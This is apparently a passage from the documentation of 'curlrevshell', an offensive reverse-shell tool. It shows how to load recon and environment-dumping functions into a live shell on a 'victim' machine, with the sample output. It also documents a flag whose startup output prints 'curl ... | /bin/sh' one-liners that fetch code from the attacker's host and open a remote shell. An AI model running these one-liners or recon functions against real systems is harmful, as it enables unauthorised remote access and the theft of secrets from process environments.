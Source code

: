 Send a whole directory of functions
```
# Make the directory and functions
mkdir ./funcs
echo '# TABDOC: recon Figure out what this box is doing' > ./funcs/recon.subr
echo 'recon() { id; uname -a; ps awwwfux; }; echo Loaded.' >> ./funcs/recon.subr
cat >./funcs/penv.pl <<'_eof'
#!/usr/bin/env perl
# TABDOC: penv Print a process's environment, nicely
open H, "</proc/".($ARGV[0]//"self")."/environ" or die "open: $!";
$/=$\;
print join("\n",sort(split/\0/,<H>))."\n";
_eof
# Set that directory to be sent.
curlrevshell -ctrl-i ./funcs
...output...
22:28:02.425 [192.168.178.23] Shell is ready to go!
# Hit Ctrl+I here
22:28:03.453 Inserting ./funcs...
22:28:03.453 Inserted 706 bytes from ./funcs
22:28:03.453 SHA256: 82aed18b629ed87538b6ebfaed329f8696a305223f163c6d46e681c9c13ae8f1
Loaded.
> recon
uid=1000(victim) gid=1000(victim) groups=1000(victim)
Linux target.example.com 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64 GNU/Linux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           2  0.0  0.0      0     0 ?        S    Jun05   0:00 [kthreadd]
...more process listing...
> penv 1234
HOME=/home/victim
LANG=C.UTF-8
LOGNAME=victim
...more environment variables...
> tab_list
penv      - Print a process's environment, nicely
recon     - Figure out what this box is doing
tab_list  - This function list
```

`-icanhazip`
------------
Adds whatever address [icanhazip.com](https://icanhazip.com) gives back to the
list on one-liners printed on startup.  Functionally equivalent to
`-address "$(curl https://icanhazip.com)"`.

Handy for situations where there's inbound NAT happening and keystrokes are at
a premium.

### Example
Also print a one-liner for our external (hopefully) address.
```
$ curlrevshell -icanhazip
17:16:07.924 Listening on 0.0.0.0:4444
17:16:07.924 To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10/c' | /bin/sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://93.184.216.34:4444/c' | /bin/sh
```
